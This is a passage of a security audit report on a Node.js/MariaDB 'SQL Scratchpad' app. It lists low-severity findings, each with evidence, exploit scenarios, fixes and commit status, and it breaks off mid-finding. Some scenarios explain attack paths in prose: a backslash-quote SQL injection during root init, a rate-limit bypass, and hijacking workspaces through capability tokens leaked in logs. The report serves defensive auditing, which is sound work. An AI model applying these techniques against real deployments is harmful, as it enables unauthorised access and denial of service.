### [LOW] CONTAINERS-005 — db/Dockerfile omits HEALTHCHECK instruction (Trivy DS-0026)

- **Location:** `db/Dockerfile:1-10`
- **Layer:** `containers` | **CWE:** CWE-693 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in db/Dockerfile:1-10: no HEALTHCHECK instruction defined (Trivy DS-0026). **Preconditions:** Running 0xwulf/sql-scratchpad-db outside the repository's Compose files without a separate healthcheck definition.
- **Evidence:**
  ```text
  db/Dockerfile defines no HEALTHCHECK instruction (flagged by Trivy DS-0026), whereas Dockerfile defines HEALTHCHECK on lines 58-59.
  ```
- **Exploit scenario:** When operators deploy the published 0xwulf/sql-scratchpad-db image standalone or via custom Compose/orchestrator manifests without duplicating the compose-level healthcheck block from deploy/docker-compose.yml (lines 22-27), a wedged or unresponsive mariadbd instance is not detected by container health checks, delaying automated restart or alerting during resource-exhaustion attacks.
- **Fix:** Add to db/Dockerfile:
HEALTHCHECK --interval=30s --timeout=5s --start-period=45s --retries=5 \
  CMD ["healthcheck.sh", "--connect", "--innodb_initialized"] *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `84b9c32` — Added HEALTHCHECK instruction (healthcheck.sh --connect --innodb_initialized) to db/Dockerfile resolving Trivy DS-0026.

### [LOW] CONTAINERS-006 — Dockerfile runtime stage chowns application code and static SPA assets to runtime user node

- **Location:** `Dockerfile:46-55`
- **Layer:** `containers` | **CWE:** CWE-732 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in Dockerfile:46-55: runtime stage copies node_modules, server/dist, and web/dist with --chown=node:node even though the runtime process requires zero writes to /app. **Preconditions:** Image deployed without read_only: true AND attacker exploits a file-write primitive in the app container.
- **Evidence:**
  ```text
  COPY --from=prod-deps --chown=node:node /app/node_modules ./node_modules
  ...
  COPY --from=builder --chown=node:node /src/server/dist ./server/dist
  COPY --from=builder --chown=node:node /src/web/dist ./web/dist

  USER node
  ```
- **Exploit scenario:** The app process requires no write access to /app at runtime (confirmed by read_only: true in deploy/docker-compose.yml). However, if the published 0xwulf/sql-scratchpad image is run without read_only: true (e.g., docker run or a custom manifest), any arbitrary file-write bug in the Node.js runtime allows the node user to overwrite /app/web/dist/index.html (injecting persistent XSS into all users' browsers) or /app/server/dist/*.js.
- **Fix:** Remove --chown=node:node from COPY instructions on Dockerfile lines 46-53 so /app files remain owned by root:root (readable/executable by node, non-writable by node). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `ee949ae` — Removed --chown=node:node from runtime COPY instructions in Dockerfile so app code and static assets stay root-owned and non-writable by USER node.

### [LOW] CRYPTO-003 — App-to-MariaDB connections have no TLS option; workspace users are created for any host without REQUIRE SSL

- **Location:** `server/src/db.ts:4-17`, `server/src/workspace-manager.ts:607-617`, `server/src/workspace-manager.ts:855-857`, `server/src/config.ts:67-70`, `db/conf.d/sql-scratchpad.cnf:12-18`, `server/src/workspace-manager.ts:851-863`, `server/src/workspace-manager.ts:869-877`, `db/init/00-admin-user.sh:13-17`, `server/src/db.ts:4-18`
- **Layer:** `crypto` | **CWE:** CWE-319 | **OWASP:** A02:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed — merged duplicate(s): `AUTHN-008`
- **Description:** Confirmed in server/src/db.ts:4-17, server/src/workspace-manager.ts:607-617,855-857,945-952, db/init/00-admin-user.sh:13-17, and db/conf.d/sql-scratchpad.cnf: no TLS option on mysql2 clients or MariaDB server, and DB accounts use host '%'. Mitigated in default Compose by internal: true DB network; deferred for operator/architecture decision on DB TLS cert management and host scoping. Merged with AUTHN-008. **Preconditions:** Non-default deployment where DB_HOST is not the co-located Compose db service, or an attacker already on the Docker internal network. Not exploitable in the documented default deployment.
- **Evidence:**
  ```text
  db.ts: mysql.createPool({ host: config.DB_HOST, port: config.DB_PORT, user: config.DB_ADMIN_USER, password: ..., connectionLimit: 10, ... })  // no ssl option
  workspace-manager.ts 607: mysql.createConnection({ host, port, user: ws.dbUser, password: ws.password, database, ... })  // no ssl option
  workspace-manager.ts 855: CREATE USER ${userLit}@'%' IDENTIFIED BY ${pwdLit} WITH MAX_USER_CONNECTIONS 3 ...  // no REQUIRE SSL
  config.ts: DB_HOST is a free string with no TLS setting (no DB_SSL / DB_CA variable). The server .cnf has no ssl_cert/ssl_key and no require_secure_transport.
  ```
- **Exploit scenario:** 1. An operator follows the supported env vars and points DB_HOST at a MariaDB reachable across a network (managed DB, other host, VPN). 2. The code can only speak plaintext, so the scratchpad_admin password handshake, every per-workspace 256-bit password (sent at CREATE USER and each connection) and all user SQL and result data cross that network unencrypted. 3. An on-path observer reads or replays them; the admin account has CREATE USER, CONNECTION ADMIN and WITH GRANT OPTION on ws_%.*. With the shipped Compose topology (internal: true Docker network) the exposure is limited to the host's own bridge, hence low.
- **Fix:** Add optional config (DB_SSL=true, DB_SSL_CA path, DB_SSL_REJECT_UNAUTHORIZED default true) and pass an ssl object to createPool, to the two createConnection calls and to cloneTemplate's wsConn. In db/conf.d add ssl_cert/ssl_key and optionally require_secure_transport=ON for remote setups. Document in docs/SELF-HOSTING.md that remote DB_HOST requires TLS. Never set rejectUnauthorized: false. *(Fix risk: `medium`; manual action required: No.)*
- **Status:** Deferred — needs decision (mitigated in default Docker Compose by `internal: true` DB network; requires operator/architecture decision on MariaDB TLS certificate management and host-scoped grants for remote DB deployments)

### [LOW] DEPS-001 — Dockerfile ARG NODE_IMAGE indirection silently disables Dependabot base image updates

- **Location:** `Dockerfile:3-6`, `Dockerfile:39-39`, `.github/dependabot.yml:31-37`
- **Layer:** `deps` | **CWE:** CWE-1104 | **OWASP:** A06:2021 | **Confidence:** `confirmed`
- **Verdict:** Downgraded (`MEDIUM` -> `LOW`)
- **Description:** Confirmed in Dockerfile:4,6,39 and .github/dependabot.yml:31-37: FROM ${NODE_IMAGE} using an ARG is skipped by Dependabot's Docker updater. Downgraded from medium to low because Trivy reports zero active CVEs in the currently pinned Node 24 base image; this is a patch-automation gap consistent with CICD-004 and CICD-005 (both low). **Preconditions:** A security vulnerability is disclosed in the pinned Node.js 24.22.3 runtime or Debian Bookworm base packages and the maintainer relies on Dependabot for base image digest updates.
- **Evidence:**
  ```text
  Dockerfile:3-6:
  # Node 24 LTS (bookworm-slim) multi-arch OCI index (linux/arm64 + linux/amd64)
  ARG NODE_IMAGE=node:24-bookworm-slim@sha256:dc26ae92c9fb15cf6b1d63e20f0944b2efe0f115b20e00be48fb23fceb061c54

  FROM --platform=$BUILDPLATFORM ${NODE_IMAGE} AS base

  Dockerfile:39:
  FROM ${NODE_IMAGE} AS runtime

  .github/dependabot.yml:31-37:
    - package-ecosystem: docker
      directory: /
      schedule:
        interval: weekly

  (Dependabot's Docker parser ignores FROM instructions that reference an ARG variable. Repo PR history confirms Dependabot opened PR #1 for db/Dockerfile, which uses a literal FROM mariadb:11.4@sha256:..., and zero PRs for Dockerfile.)
  ```
- **Exploit scenario:** Because Dockerfile pins node:24-bookworm-slim to an immutable SHA-256 digest via ARG NODE_IMAGE, Dependabot's weekly docker updater for directory '/' silently skips it. Over time, newly published Node.js 24 security releases (e.g., V8, llhttp, HTTP/2, undici, OpenSSL) and Debian Bookworm OS security updates (glibc, openssl, zlib, ca-certificates) are never proposed as PRs. An unauthenticated remote attacker targeting the public SQL Scratchpad app container exploits a publicly disclosed Node.js or OS library CVE that remained frozen in the published 0xwulf/sql-scratchpad image despite Dependabot being configured.
- **Fix:** Remove ARG NODE_IMAGE from Dockerfile and inline the literal digest-pinned image in both FROM lines ('FROM --platform=$BUILDPLATFORM node:24-bookworm-slim@sha256:... AS base' and 'FROM node:24-bookworm-slim@sha256:... AS runtime'). Add an ignore block under the root docker entry in .github/dependabot.yml for 'node' semver-major updates if staying on Node 24 LTS. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `7877eea` — Replaced ARG NODE_IMAGE indirection with literal digest-pinned FROM lines in Dockerfile and configured Dependabot root docker updates to stay on Node 24 LTS.

### [LOW] DEPS-002 — Unnecessary allowBuilds for esbuild and missing --ignore-scripts in Docker builder and CI installs

- **Location:** `pnpm-workspace.yaml:6-7`, `Dockerfile:18-18`, `.github/workflows/ci.yml:57-58`, `.github/workflows/ci.yml:140-141`
- **Layer:** `deps` | **CWE:** CWE-829 | **OWASP:** A08:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in pnpm-workspace.yaml:6-7 (allowBuilds: { esbuild: true }), Dockerfile:18, and .github/workflows/ci.yml:58,141 (missing --ignore-scripts). Phase 0 verified full build, lint, typecheck, and unit/web tests pass with --ignore-scripts. **Preconditions:** A compromised esbuild version or tampered lockfile entry is installed during local development, CI, or Docker image builds.
- **Evidence:**
  ```text
  pnpm-workspace.yaml:6-7:
  allowBuilds:
    esbuild: true

  Dockerfile:18 (vs line 37 which passes --ignore-scripts for prod-deps):
  RUN pnpm install --frozen-lockfile

  .github/workflows/ci.yml:57-58 & 140-141:
        - name: Install dependencies
          run: pnpm install --frozen-lockfile

  (esbuild@0.28.2 is dev-only via tsx@4.23.15 / vite@8.3.8 optional peer and ships its native binary in @esbuild/<os>-<arch> optionalDependencies. Installing with 'pnpm install --frozen-lockfile --ignore-scripts' passes pnpm lint, format:check, build, typecheck, all 62 unit/web tests, and 'tsx -e "console.log(1+1)"'.)
  ```
- **Exploit scenario:** allowBuilds: { esbuild: true } exempts esbuild from pnpm's default-deny lifecycle script sandbox across developer installs, CI runs (ci.yml on pull_request, push, and tag releases), and multi-arch Docker builds (Dockerfile:18). If a compromised esbuild release is pulled into pnpm-lock.yaml (e.g., via an upstream npm compromise merged in a dependency bump or a malicious PR modifying the lockfile), esbuild's postinstall script ('node install.js') executes arbitrary Node.js code with full access to the build environment, filesystem, and CI runner context. esbuild/install.js also contains network fallback downloaders (installUsingNPM, downloadDirectlyFromNPM) outside lockfile integrity checks.
- **Fix:** Replace 'esbuild: true' with 'esbuild: false' (or add 'ignoreScripts: true') in pnpm-workspace.yaml, and append '--ignore-scripts' to 'pnpm install --frozen-lockfile --ignore-scripts' in Dockerfile:18 and .github/workflows/ci.yml:58,141. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `253dfa1` — Disabled allowBuilds.esbuild in pnpm-workspace.yaml and passed --ignore-scripts to pnpm install --frozen-lockfile in Dockerfile and .github/workflows/ci.yml.

### [LOW] DEPS-005 — Corepack packageManager and prepare commands lack SHA-512 integrity hash pinning

- **Location:** `package.json:6-6`, `Dockerfile:8-8`, `.github/workflows/ci.yml:52-55`, `.github/workflows/ci.yml:135-138`
- **Layer:** `deps` | **CWE:** CWE-494 | **OWASP:** A08:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in package.json:6, Dockerfile:8, and .github/workflows/ci.yml:52-55,135-138: Corepack packageManager and prepare commands pin pnpm@12.21.0 without a +sha512.<hex> integrity hash. **Preconditions:** Tampering or compromise of the npm registry, CDN/cache, or upstream pnpm tarball distribution for the referenced version during a build without a cached copy.
- **Evidence:**
  ```text
  package.json:6:
    "packageManager": "pnpm@12.21.0",

  Dockerfile:8:
  RUN corepack enable ; corepack prepare pnpm@12.21.0 --activate

  .github/workflows/ci.yml:52-55 (repeated at 135-138):
        - name: Enable Corepack and pnpm
          run: |
            corepack enable
            corepack prepare pnpm@12.21.0 --activate
  ```
- **Exploit scenario:** During CI workflows and Docker image builds (including release.yml builds pushed to Docker Hub), Corepack downloads pnpm@12.21.0 from the npm registry without checking a pinned cryptographic hash (Corepack does not read pnpm-lock.yaml's packageManagerDependencies integrity entry). If the registry, CDN, or upstream archive for that version were tampered with or served via a compromised mirror/cache, Corepack would activate and execute the tampered package manager binary inside the build environment with full access to source code and build outputs.
- **Fix:** Append the verified SHA-512 hex digest to package.json's "packageManager" field (e.g., via 'corepack use pnpm@12.21.0', producing 'pnpm@12.21.0+sha512.<hex>'). In .github/workflows/ci.yml:55,138 run 'corepack prepare --activate' so Corepack reads and verifies the hashed packageManager field from package.json; in Dockerfile:8 either copy package.json before 'corepack prepare --activate' or pass the full '+sha512.<hex>' specifier (and chain commands with '&&' instead of ';'). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `31963fb` — Pinned packageManager in package.json and Dockerfile to verified pnpm@12.21.0+sha512.<hex> digest and switched CI to corepack prepare --activate.

### [LOW] INFRA-001 — LOADTEST_ALLOW_IPS rate-limit and workspace-cap bypass has no production guardrail

- **Location:** `server/src/config.ts:48`, `server/src/config.ts:95-108`, `server/src/app.ts:125`, `server/src/app.ts:163`, `server/src/app.ts:227`, `server/src/app.ts:287-289`, `server/src/config.ts:33-45`, `AGENTS.md:31`, `server/src/app.ts:125,163,227-232,287-289`, `server/src/server.ts:10-43`
- **Layer:** `infra` | **CWE:** CWE-799 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Downgraded (`MEDIUM` -> `LOW`) — merged duplicate(s): `AUTHN-002`, `LOGGING-004`
- **Description:** Confirmed in server/src/config.ts:48,95-108 and server/src/app.ts:125,163,227,287-289: LOADTEST_ALLOW_IPS is not rejected when NODE_ENV=production and logs no startup warning. Downgraded from medium to low because LOADTEST_ALLOW_IPS is unset by default, omitted from deploy/*.env.example, and requires explicit operator misconfiguration to activate (aligns with AUTHN-002 and LOGGING-004). Merged with AUTHN-002 and LOGGING-004. **Preconditions:** Operator accidentally sets LOADTEST_ALLOW_IPS in a production environment (e.g., copied from local E2E/load-test configuration).
- **Evidence:**
  ```text
  server/src/config.ts:48: NODE_ENV: z.enum(['development', 'production', 'test']).default('development'),
  server/src/config.ts:95-108: LOADTEST_ALLOW_IPS validated as exact IPs only, with no check against NODE_ENV.
  server/src/app.ts:163: allowList: (req) => loadtestAllowIps.has(unwrapMappedIpv4(req.ip || '')),
  server/src/app.ts:227: const bypassPerIp = loadtestAllowIps.has(unwrapMappedIpv4(req.ip || ''));
  server/src/app.ts:287: if (loadtestAllowIps.has(unwrapMappedIpv4(req.ip || ''))) { return; }
  ```
- **Exploit scenario:** Although AGENTS.md states LOADTEST_ALLOW_IPS must never be set in production, config.ts neither rejects LOADTEST_ALLOW_IPS when NODE_ENV=production (set in Dockerfile:42) nor logs a startup warning; additionally, NODE_ENV defaults to 'development' in config.ts and is never inspected anywhere in server/src. If an operator accidentally retains LOADTEST_ALLOW_IPS=127.0.0.1 (or a proxy IP) in production — especially when paired with an empty or misconfigured TRUST_PROXY behind a local reverse proxy — every external request resolves to the allowlisted IP and bypasses all route rate limits, MAX_WORKSPACES_PER_IP (6), and the 30 MB/h import byte budget. A single unauthenticated attacker can then exhaust all 50 global workspaces (MAX_WORKSPACES) or the 1 GB storage budget, causing full service DoS.
- **Fix:** Add a .superRefine() rule on EnvSchema in server/src/config.ts that throws a startup error if LOADTEST_ALLOW_IPS is non-empty while NODE_ENV === 'production' (and change NODE_ENV default or require explicit NODE_ENV=development|test to permit LOADTEST_ALLOW_IPS). Also emit a warn-level log in server/src/app.ts whenever loadtestAllowIps.size > 0. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `cc72fc8` — Rejected non-empty LOADTEST_ALLOW_IPS when NODE_ENV=production via EnvSchema.superRefine and emitted a warn-level startup log when active.

### [LOW] INFRA-002 — SELF-HOSTING.md reverse-proxy guidance breaks TRUST_PROXY in Docker, cites ignored X-Real-IP, and omits HSTS/TLS config

- **Location:** `docs/SELF-HOSTING.md:82`, `docs/SELF-HOSTING.md:97-105`, `deploy/docker-compose.yml:37-41`, `server/src/static.ts:28-32`, `server/src/static.ts:86`, `docs/SELF-HOSTING.md:103`, `server/src/app.ts:127-131`, `server/src/app.ts:162`
- **Layer:** `infra` | **CWE:** CWE-348 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Downgraded (`MEDIUM` -> `LOW`) — merged duplicate(s): `AUTHN-005`
- **Description:** Confirmed in docs/SELF-HOSTING.md:82,97-105 and verified in Node that Fastify ignores X-Real-IP (reading only X-Forwarded-For), while Docker bridge traffic arrives from the edge gateway IP rather than 127.0.0.1, and HSTS/TLS proxy config is omitted. Downgraded from medium to low because this is self-hosting documentation guidance (not a direct vulnerability in properly configured deployments); the missing /api/* security headers component is tracked separately in WEB-002. Merged with AUTHN-005. **Preconditions:** Self-hosted production deployment behind nginx or Caddy configured per docs/SELF-HOSTING.md.
- **Evidence:**
  ```text
  docs/SELF-HOSTING.md:82: | `TRUST_PROXY` | *(empty)* | Comma-separated IP/CIDR list of trusted reverse proxies (e.g. `127.0.0.1`). |
  docs/SELF-HOSTING.md:103-104:
  - Forward the real client IP (`X-Forwarded-For` / `X-Real-IP`) and set `TRUST_PROXY` in `deploy/app.env` to your proxy's IP.
  - Do not duplicate security headers (`Content-Security-Policy`, `X-Content-Type-Options`, `Referrer-Policy`); the app container sets them directly.
  ```
- **Exploit scenario:** Operators deploying deploy/docker-compose.yml behind host nginx or Caddy following docs/SELF-HOSTING.md hit four concrete security regressions:
1. Setting TRUST_PROXY=127.0.0.1 (as suggested on line 82) fails inside Docker because connections proxied to 127.0.0.1:5050 arrive inside the app container from the Docker 'edge' bridge gateway IP (e.g., 172.x.0.1), not 127.0.0.1. Fastify ignores X-Forwarded-For and collapses all internet users into one IP bucket, allowing any single external user to trigger global 429 DoS for every visitor by consuming the shared 6-workspace cap or 20/h create limit, and collapsing ownerIpHash so POST /api/workspaces/:wsId/close ownership checks pass for all clients.
2. Line 103 suggests forwarding X-Real-IP, but Fastify's @fastify/proxy-addr only reads X-Forwarded-For; operators who forward only X-Real-IP suffer the same client-IP collapse and single-user DoS.
3. Neither the app nor SELF-HOSTING.md configures Strict-Transport-Security (HSTS) or TLS 1.2+/1.3 redirect guidance, leaving HTTPS deployments exposed to SSL-stripping downgrade attacks.
4. Line 104 tells operators not to set security headers at the proxy because the app sets them directly, yet server/src/static.ts:86 only sets CSP/nosniff/Referrer-Policy on static SPA responses, leaving all /api/* responses without those headers.
- **Fix:** Add concrete hardened nginx and Caddy configuration blocks to docs/SELF-HOSTING.md that: (1) explicitly forward X-Forwarded-For (using $remote_addr on a single-hop proxy, or real_ip_header/set_real_ip_from behind a CDN) and remove the misleading X-Real-IP alternative; (2) explain how to obtain the Docker 'edge' network gateway IP/CIDR for TRUST_PROXY instead of 127.0.0.1; (3) enable TLS 1.2+/1.3, HTTP->HTTPS redirect, and Strict-Transport-Security (max-age=31536000; includeSubDomains); and (4) align header guidance once /api/* responses also receive security headers via an app onSend hook. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `0521411` — Updated docs/SELF-HOSTING.md with Docker edge gateway TRUST_PROXY instructions, X-Forwarded-For forwarding (removing ignored X-Real-IP), and hardened TLS 1.2+/1.3 + HSTS nginx and Caddy examples.

### [LOW] INFRA-006 — Matching non-empty placeholder passwords in *.env.example allow silent startup with publicly known credentials

- **Location:** `deploy/db.env.example:2-3`, `deploy/app.env.example:3`, `.env.example:2-3`, `db/init/00-admin-user.sh:4-7`, `server/src/config.ts:70`, `db/init/00-admin-user.sh:4-18`
- **Layer:** `infra` | **CWE:** CWE-1188 | **OWASP:** A07:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed — merged duplicate(s): `AUTHN-004`
- **Description:** Confirmed in deploy/db.env.example:2-3, deploy/app.env.example:3, .env.example:2-3, db/init/00-admin-user.sh:4-7, and server/src/config.ts:70: identical non-empty placeholder passwords are accepted silently at startup without rejection. Merged with AUTHN-004. **Preconditions:** Operator forgets to replace placeholder values after copying *.env.example, and attacker can reach the MariaDB port (mitigated in default deploy/docker-compose.yml by the internal-only DB network).
- **Evidence:**
  ```text
  deploy/db.env.example:2-3:
  MARIADB_ROOT_PASSWORD=replace-with-random-root-password
  SQLSCRATCHPAD_ADMIN_PASSWORD=replace-with-random-admin-password

  deploy/app.env.example:3:
  SQLSCRATCHPAD_ADMIN_PASSWORD=replace-with-random-admin-password
  ```
- **Exploit scenario:** Because deploy/db.env.example and deploy/app.env.example contain identical non-empty placeholder passwords and neither db/init/00-admin-user.sh nor server/src/config.ts rejects them, an operator who copies the example files and starts the stack without completing the manual password-replacement step gets a healthy, functioning deployment authenticated with publicly committed credentials. If MariaDB is reachable locally (e.g., compose.dev.yml on 127.0.0.1:3307) or on a shared network/host, an attacker can authenticate directly as root or scratchpad_admin.
- **Fix:** Leave secret values blank in deploy/db.env.example, deploy/app.env.example, and .env.example (e.g. MARIADB_ROOT_PASSWORD= and SQLSCRATCHPAD_ADMIN_PASSWORD=) so startup fails closed until real secrets are supplied, and reject known 'replace-with-*' placeholder strings in db/init/00-admin-user.sh and server/src/config.ts. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `c681e9f` — Cleared default password placeholders in .env.example, deploy/app.env.example, and deploy/db.env.example, added startup placeholder rejection in db/init/00-admin-user.sh and server/src/config.ts, and added unit regression tests.

### [LOW] INJECTION-006 — Incomplete SQL literal escaping in db/init/00-admin-user.sh allows backslash-quote SQL injection as MariaDB root

- **Location:** `db/init/00-admin-user.sh:9-18`, `db/init/00-admin-user.sh:10-13`, `db/conf.d/sql-scratchpad.cnf:21`
- **Layer:** `injection` | **CWE:** CWE-89 | **OWASP:** A03:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed — merged duplicate(s): `INFRA-004`
- **Description:** Confirmed in db/init/00-admin-user.sh:10-13 and db/conf.d/sql-scratchpad.cnf:21: only single quotes are escaped (s/'/''/g) while NO_BACKSLASH_ESCAPES is not enabled, allowing a backslash before a single quote in SQLSCRATCHPAD_ADMIN_PASSWORD to break out of the SQL literal during root init. Merged with INFRA-004. **Preconditions:** Attacker or deployment pipeline controls SQLSCRATCHPAD_ADMIN_PASSWORD at initial MariaDB volume bootstrap (not remotely reachable from the public web API).
- **Evidence:**
  ```text
  # Escape single quotes for SQL string literal
  ESCAPED_PWD=$(printf '%s' "${SQLSCRATCHPAD_ADMIN_PASSWORD}" | sed "s/'/''/g")

  mariadb --protocol=socket -u root -p"${MARIADB_ROOT_PASSWORD}" -e "
  CREATE USER IF NOT EXISTS 'scratchpad_admin'@'%' IDENTIFIED BY '${ESCAPED_PWD}';
  ```
- **Exploit scenario:** The MariaDB server configuration (db/conf.d/sql-scratchpad.cnf:21) sets sql_mode without NO_BACKSLASH_ESCAPES, so MariaDB interprets backslashes as escape characters inside single-quoted string literals. The init script escapes single quotes (' -> '') via sed but fails to escape backslashes (\ -> \\). If SQLSCRATCHPAD_ADMIN_PASSWORD contains a backslash immediately before a single quote, the sed substitution produces \'', which MariaDB parses as an escaped literal single quote followed by a closing string delimiter, allowing arbitrary SQL injection executed as MariaDB root during database container initialization. Additionally, any non-malicious generated password containing a backslash either breaks bootstrap with a syntax error or silently provisions a mangled password that does not match the application environment variable.
- **Fix:** Escape backslashes before single quotes in db/init/00-admin-user.sh (e.g., sed 's/\\/\\\\/g; s/'\''/'\'''\''/g') or enable NO_BACKSLASH_ESCAPES for the init session (SET SESSION sql_mode = CONCAT(@@sql_mode, ',NO_BACKSLASH_ESCAPES');) and pass the SQL via stdin rather than command-line -e. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `39c964c` — Escaped backslashes before single quotes and rejected CR/LF control characters in SQLSCRATCHPAD_ADMIN_PASSWORD in db/init/00-admin-user.sh.

### [LOW] LOGGING-001 — Workspace capability token (wsId) is written to logs via req.url and explicit wsId fields

- **Location:** `server/src/logger.ts:184-191`, `server/src/app.ts:261-268,310-317`, `server/src/workspace-manager.ts:739,744,770-773,795-805`, `deploy/docker-compose.yml:51-55`, `server/src/logger.ts:185-191`, `server/src/app.ts:261-268`, `server/src/app.ts:310-317`, `server/src/workspace-manager.ts:732-739`, `server/src/logger.ts:185-190`
- **Layer:** `logging` | **CWE:** CWE-532 | **OWASP:** A09:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed — merged duplicate(s): `AUTHN-001`, `CRYPTO-001`
- **Description:** Reproduced directly against built server/dist/app.js: raw wsId capability tokens are emitted in Pino 'incoming request' req.url logs (logger.ts:185-190), explicit { wsId } log fields (app.ts:263,312), and janitor/teardown logs (workspace-manager.ts:424,733,739,744,771,796,802,809). Merged with AUTHN-001 and CRYPTO-001. **Preconditions:** Read access to app logs; workspace must still be live. Impact limited to scratch data in one workspace.
- **Evidence:**
  ```text
  logger.ts:185-190  req(request) { return { method: request.method, url: request.url, clientIpHash: ipHasher.hash(...) }; }  // url is the raw path+query
  For every API call the URL is /api/workspaces/<wsId>/exec|import|schema|reset|... and Fastify logs it on 'incoming request'. app.ts:263 also logs { wsId: req.params.wsId, ... }; workspace-manager.ts:739 logs { wsId, database, reason }.
  The wsId is the ONLY credential for exec/import/schema/reset/kill/DELETE (no ownerIpHash check on those routes, per recon). 'PINO_REDACT_PATHS' does not cover req.url or wsId.
  ```
- **Exploit scenario:** Anyone who can read application logs (Docker json-file logs on the host, a log shipper, a shared support bundle pasted into an issue) can lift a live wsId from an `incoming request` line and, within the workspace's 2 h idle / 12 h absolute TTL, run SQL in, import into, reset, or delete another user's workspace. Logs are also the likeliest thing to be pasted into a public GitHub issue for this public repo.
- **Fix:** Redact the capability in the req serializer: log `request.routeOptions.url` (the route pattern, e.g. /api/workspaces/:wsId/exec) plus a short non-reversible id (e.g. first 8 chars of an HMAC of wsId with the daily log salt) instead of raw `request.url`; strip query strings. Apply the same helper to the explicit wsId log fields in app.ts and workspace-manager.ts. Add a test asserting no 26-char base32 wsId appears in captured logs (extends the existing hostile.int.test.ts log scan). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `7b4173e` — Redacted /api/workspaces/<wsId> in request logs and replaced explicit wsId log fields across app.ts and workspace-manager.ts with daily-keyed 8-hex wsIdHash HMACs.

### [LOW] LOGGING-002 — Pino redaction covers err.sql but not err.sqlMessage / err.message; console.error(err) bypasses redaction entirely

- **Location:** `server/src/logger.ts:6-19`, `server/src/errors.ts:70`, `server/src/workspace-manager.ts:301-306,423-426,661,671,744,809`, `server/src/server.ts:26-28,46-49`
- **Layer:** `logging` | **CWE:** CWE-532 | **OWASP:** A09:2021 | **Confidence:** `possible`
- **Verdict:** Confirmed
- **Description:** Reproduced directly against built server/dist/app.js with a simulated mysql2 error: PINO_REDACT_PATHS redacted err.sql, but err.message, err.sqlMessage, and err.stack leaked the statement fragment containing the password canary. Confirmed server/src/server.ts:47 also logs uncaught startup errors via raw console.error(err). **Preconditions:** A DB error whose text quotes the failing provisioning statement; read access to logs. Not exercised against live MariaDB (simulated error object used).
- **Evidence:**
  ```text
  logger.ts:7-8  'sql', '*.sql'  // redacts err.sql but nothing else on the error object
  Ran buildApp with a fake mysql2-style error {message, code, errno, sqlState, sql, sqlMessage} thrown from adminPool during POST /api/workspaces; captured log line:
    "err":{"type":"Error","message":"Access denied or syntax error near 'SUPER_SECRET_PW_999'","stack":"...","code":"ER_PARSE_ERROR","errno":1064,"sqlState":"42000","sql":"[REDACTED]","sqlMessage":"You have an error in your SQL syntax near 'IDENTIFIED BY SUPER_SECRET_PW_999'"},"msg":"Unhandled server error"
  (`sql` was redacted; `message`, `stack` and `sqlMessage` printed the statement fragment.) A wrapped error `new Error('Wrapper',{cause})` also prints the cause message/stack in `stack`.
  server.ts:46-48  main().catch((err) => { console.error(err); ... })  // raw console, no pino serializers or redaction.
  PINO_REDACT_PATHS also lacks deeper wildcards (`*.*.sql`), so err.cause.sql-style nesting is not covered.
  ```
- **Exploit scenario:** createWorkspace/resetWorkspace run `CREATE USER ... IDENTIFIED BY '<generated password>'` through adminPool. If MariaDB rejects such a statement (syntax, plugin or password-validation error, engine-specific message that quotes the statement fragment), the mysql2 error reaches `req.log.error({ err }, 'Unhandled server error')` or `this.logger.warn({ err: cleanupErr })`. The password-bearing fragment lands in `message`/`sqlMessage`/`stack`, which are not redacted, and in Docker logs. AGENTS.md rule 'never log raw SQL text or passwords' is therefore only enforced for one property. Reaching this needs a DB-side error on an internal statement, so likelihood is low. User-supplied SQL does not reach this path (exec/import errors are returned to the client, not logged).
- **Fix:** Add a custom `err` serializer in buildLoggerOptions that emits only { type, code, errno, sqlState, stack-without-message } and never `message`/`sqlMessage` for mysql2 errors, or scrub with a regexp for IDENTIFIED BY '...'/PASSWORD(...). Add `err.sqlMessage`, `*.sqlMessage`, `err.message` (for mysql errors) and `*.*.sql` to PINO_REDACT_PATHS. Route startup failures through a pino logger (or a scrubbed message) instead of console.error(err). Add a unit test that throws an error carrying a canary in sql/sqlMessage/message and asserts the canary is absent from captured logs; the current hostile.int.test.ts canary scan never exercises the error-log path. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `c622809` — Added a safe Pino err serializer scrubbing mysql2 sql/sqlMessage/message/stack and password patterns, expanded PINO_REDACT_PATHS, and scrubbed fatal startup errors in server.ts.

### [LOW] LOGGING-003 — No security-event audit logging: PLAYGROUND_DENIED, 403 FORBIDDEN, 429 limits and workspace create/reset/delete are not logged as events

- **Location:** `server/src/exec-engine.ts:365-380`, `server/src/import-engine.ts:487-498`, `server/src/errors.ts:27-33,56-61`, `server/src/workspace-manager.ts:232-334,460-501,503-544`, `server/src/app.ts:159-183,219-247,347-370`
- **Layer:** `logging` | **CWE:** CWE-778 | **OWASP:** A09:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/exec-engine.ts:365-380, import-engine.ts:487-498, errors.ts:27-33, and app.ts:159-183,219-247,347-370: PLAYGROUND_DENIED (HTTP 200), 403 FORBIDDEN, rate-limit hits, and workspace create/reset/delete lifecycle events emit no structured security audit logs. **Preconditions:** None; this is an observability gap, relevant during incident response.
- **Evidence:**
  ```text
